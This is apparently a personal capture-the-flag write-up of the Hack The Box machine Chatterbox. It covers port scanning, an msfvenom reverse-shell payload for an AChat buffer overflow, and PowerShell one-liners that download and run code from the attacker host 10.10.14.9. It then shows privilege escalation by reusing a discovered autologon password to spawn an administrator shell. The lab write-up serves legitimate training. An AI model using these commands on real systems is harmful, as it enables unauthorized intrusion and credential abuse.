

# Chatterbox

10.10.10.74




# Enumerate

## Scan

* Had to make the scan faster to get it to find the ports. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Chatterbox$ nmap -p- --max-retries=1 --min-rate=5000 -Pn 10.10.10.74 -v10
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Chatterbox$ nmap -sC -sV -p9255-9256 10.10.10.74 -Pn 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-20 06:13 EDT
Nmap scan report for 10.10.10.74
Host is up (0.028s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.49 seconds
```

## Enumerate Services

* No achat nmap scans
* Webpage doesn't show anything, start dirbuster, no special wordlists. Gets a bunch of IO errors, probably not right. Maybe version is in the header? Nope. Burp repeater just shows 204 no content response. 
* Found an achat client on github but connecting to the server doesn't seem to do anything. 
* Searchsploit has one vuln:

```
Achat 0.150 beta7 - Remote Buffer Overflow | exploits/windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit) | exploits/windows/remote/36056.rb
```

* Telnet to 56 just shows error when I try and do anything. 

# Access

* Tried to remake the python msfvenom output to do download_exec and exec with powershell one liner. Both were over the limit that msf exploit shows for the payload space. Not sure if that limit is legit. 
* Look into the python script and see the 1100 limit and I can make payloads in that. 
* The download exec payload didn't seem to work right for some reason. 
* Reverse shell payload works. Connect to multi/handler. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Chatterbox$ msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.9 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
* One source also shows how to make it with a download command in the msfvenom payload.   
* Get user.txt

# Escalate

* Run windows-exploit-suggester and winenum

* Winenum didn't respond and then I broke the service I think. 

* Tried MS15-051 taihou, didn't work. 

* Tried MS16-016, didn't work. 

* Nothing available for some others or didn't seem to be good ones. 

* Keep killing listener. Make new .exe and then run that instead of killing my only one and having to reset. 

  * Made another command shell and a powershell connection. 

  ```
  C:\Windows\system32>powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://10.10.14.9/1235.exe','C:\users\alfred\1235.exe')"
  ```

  ```
  C:\Users\Alfred>powershell "iex (New-Object Net.WebClient).DownloadString('http://10.10.14.9/pshelloneline.ps1')"
  ```

* For some reason, the one liner worked better so I used that to connect back and get a powershell reverse

* Downloaded the powerup.ps1 script and ran

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.9/PowerUp.ps1')
Invoke-AllChecks
```

```
DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   :
```

* Winpeas found this as well. 
* Assume that the administrator password is the same. 
  * Can't specify a password with runas
  * There's no psexec on the box. 
  * Create a powershell script to get a new shell. 

```
$username = 'administrator'
$password = 'Welcome1!'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process C:\users\alfred\1235.exe -Credential $credential
```

* Upload and run that script and you get an admin shell. 

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.9/testadmin.ps1','testadmin.ps1')"
powershell -executionpolicy bypass -file testadmin.ps1
```

* For some reason I couldn't get it to download and work right from within my other powershell connection. 
* Could have also just read the file by granting myself file permissions with icacls or cacls: https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html
* Different way to have done the script: https://thecyberjedi.com/chatterbox/

# Lessons

* I kill my shells a lot. Better get a second one at the start. 
